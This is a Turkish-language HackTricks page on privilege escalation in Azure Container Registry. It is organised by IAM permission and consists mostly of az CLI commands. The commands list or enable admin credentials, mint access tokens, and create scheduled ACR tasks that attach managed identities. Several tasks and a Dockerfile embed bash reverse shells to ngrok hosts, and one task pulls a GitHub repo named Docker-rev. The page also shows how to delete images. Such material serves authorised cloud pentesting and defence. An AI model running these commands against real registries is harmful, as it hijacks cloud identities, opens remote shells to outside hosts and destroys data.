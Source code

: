 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Daha fazla bilgi için kontrol edin:

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

Bu izin, kullanıcının ACR'nin yönetici kimlik bilgilerini listelemesine olanak tanır. Bu, kayıt defteri üzerinde **tam erişim elde etmek** için faydalıdır.
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```
Eğer admin kimlik bilgileri etkin değilse, bunları etkinleştirmek için `Microsoft.ContainerRegistry/registries/write` iznine de ihtiyacınız olacak:
```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```
### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

Bu izinler, kullanıcının **kayıt defterine erişmek için şifrelerle yeni bir token oluşturmasına** olanak tanır.

Aşağıdaki örnekte olduğu gibi `az cli` kullanarak bunu oluşturmak için ayrıca `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read` izinlerine de ihtiyacınız olacak.
```bash
az acr token create \
--registry <registry-name> \
--name <token-name> \
--scope-map _repositories_admin
```
### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

Bu izinler, kullanıcının **kayıt defterinde bir görüntü oluşturmasına ve çalıştırmasına** olanak tanır. Bu, konteynerde **kod çalıştırmak için** kullanılabilir.

>[!WARNING]
> Ancak, görüntü **sandbox ortamında** ve **metadata hizmetine erişim olmadan** çalıştırılacaktır. Bu, konteynerin **örnek metadata'sına** erişimi olmayacağı anlamına gelir, bu nedenle bu, ayrıcalıkları yükseltmek için gerçekten faydalı değildir.
```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```
### `Microsoft.ContainerRegistry/registries/tasks/write`

Bu, kayıt defterinde bir görev oluşturma ve güncelleme izni veren ana izindir. Bu, **buna bağlı bir yönetilen kimlik ile bir konteyner içinde bir kodu çalıştırmak için** kullanılabilir.

Bu, **sistem yönetilen** kimliği ile bir konteynerde bir ters shell çalıştırmanın bir örneğidir:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Bir görevi dış bir depo kullanmadan RCE elde etmenin başka bir yolu, `az acr task create` komutunu `--cmd` bayrağı ile kullanmaktır. Bu, konteynerde bir komut çalıştırmanıza olanak tanır. Örneğin, aşağıdaki komutla bir ters shell çalıştırabilirsiniz:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task-cmd \
--image rev/shell2:v1 \
--cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
--schedule "*/1 * * * *" \
--context /dev/null \
--commit-trigger-enabled false \
--assign-identity
```
> [!TIP]
> Sistem yönetilen kimliğini atamak için özel bir izne ihtiyacınız olmadığını unutmayın, ancak bunun önce kayıt defterinde etkinleştirilmiş ve kullanışlı olması için bazı izinler atanmış olması gerekir.

Ayrıca bir **kullanıcı yönetilen kimliği atamak için** `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` iznine ihtiyacınız olacaktır:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Mevcut bir görevin reposunu **güncellemek** için şunları yapabilirsiniz:
```bash
az acr task update \
--registry <registry-name> \
--name reverse-shell-task \
--context https://github.com/your-user/your-repo.git
```
### `Microsoft.ContainerRegistry/registries/importImage/action`

Bu izinle, **görüntüyü azure kayıt defterine içe aktarmak** mümkündür, hatta görüntü yerel olarak mevcut olmasa bile. Ancak, **kayıt defterinde zaten mevcut olan bir etiketle görüntü içe aktaramayacağınızı** unutmayın.
```bash
# Push with az cli
az acr import \
--name <registry-name> \
--source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```
Belirli bir **görüntü etiketini etiketini kaldırmak veya silmek** için aşağıdaki komutu kullanabilirsiniz. Ancak, bunu yapmak için **yeterli izinlere** sahip bir kullanıcı veya token'a ihtiyacınız olacağını unutmayın:
```bash
az acr repository untag \
--name <registry-name> \
--image <image-name>:<tag>

az acr repository delete \
--name <registry-name> \
--image <image-name>:<tag>
```
{{#include ../../../banners/hacktricks-training.md}}
